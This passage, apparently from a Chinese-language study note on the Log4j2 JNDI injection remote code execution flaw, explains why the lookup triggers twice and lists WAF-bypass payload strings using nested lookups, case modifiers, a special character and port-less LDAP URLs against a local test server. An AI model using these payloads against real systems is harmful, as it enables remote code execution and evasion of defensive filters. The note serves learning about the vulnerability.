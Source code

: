 之后便是一系列的Jndi注入的流程

至于为什么会触发两次，我调试看了看，大致是因为在加载的时候在命令行打印前会触发一遍，之后写入日志中还会触发一遍(这个我看了网上不少文章，但貌似师傅们都没有提到这一点)

### 4.Bypass

网上很多的WAF都是基于对jndi关键字的过滤，因为在官方文档中有这么一句话：

<img src="JAVA%E5%AE%89%E5%85%A8Log4j2%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1714016041489.png" alt="1714016041489" style="zoom: 67%;" />

如果USER这个环境变量未设置，就会使用默认值，而这肯定不是我们希望的，下面来看一看如何进行jndi关键字的绕过：

#### 1)多${}绕过：

```xml
${${::-J}ndi:ldap://127.0.0.1:7777/TestRef}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://127.0.0.1/TestRef}
${jndi:${lower:l}${lower:d}a${lower:p}://127.0.0.1/TestRef} #绕过ldap的过滤
```

#### 2)大小写绕过：

因为前边在看resolver的时候看到了lower和upper，我们可以这样：

```xml
${${lower:JN}di:ldap://127.0.0.1:7777/TestRef}
${${upper:jn}DI:ldap://127.0.0.1:7777/TestRef}
```

大小写是无所谓的，因为在Interpolator类的lookup方法中会对截取到的字符全部小写化

#### 3)特殊字符绕过：

```xml
${jnd${upper:ı}:ldap://127.0.0.1:7777/TestRef}
```

#### 4)unicode绕过：

emm，本地的环境反正没过，不知道有没有用，先记下来：

```xml
${sys:\u006fs.name}
```

#### 5)不出现端口号：

注意此时需要ldap服务端口为389

```xml
${jndi:ldap://127.0.0.1/TestRef}
${jndi:ldap://[127.0.0.1]/TestRef}
```



## 小结

先写到这里吧，之后学到什么新的东西再往上添
